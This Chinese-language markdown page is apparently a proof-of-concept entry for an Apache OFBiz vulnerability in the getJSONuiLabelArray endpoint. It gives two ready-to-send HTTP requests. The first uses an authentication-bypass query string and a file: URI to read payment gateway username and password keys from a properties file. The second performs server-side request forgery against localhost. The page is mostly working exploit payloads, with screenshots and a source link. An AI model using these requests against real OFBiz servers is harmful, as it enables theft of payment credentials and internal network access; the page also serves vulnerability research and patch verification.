 ## Apache OFBiz SSRF && 任意配置读取


## 任意文件读取漏洞 poc
以读取 applications/accounting/config/payment.properties 中的几个 key 为例

```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"file:applications/accounting/config/payment.properties":["payment.verisign.user","payment.verisign.pwd","payment.verisign.vendor"]}
```
![image](../../images/093b6ca3-2917-4607-93a0-efaf2b3e2ca8.png)

## SSRF 
```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"http://127.0.0.1/":["xxxxxx"]}
````

这里随便写一个 properties 文件，然后 python -m http.server 8000 起个服务
![image](../../images/683a3f21-0405-43f1-9d51-a44752107432.png)

![image](../../images/7f5e826e-9564-4343-bf1e-d0d530ab7a3a.png)

![image](../../images/beb30398-fa1b-4028-98f9-b3e8ccb4d90e.png)




## 漏洞来源
- https://xz.aliyun.com/t/13211
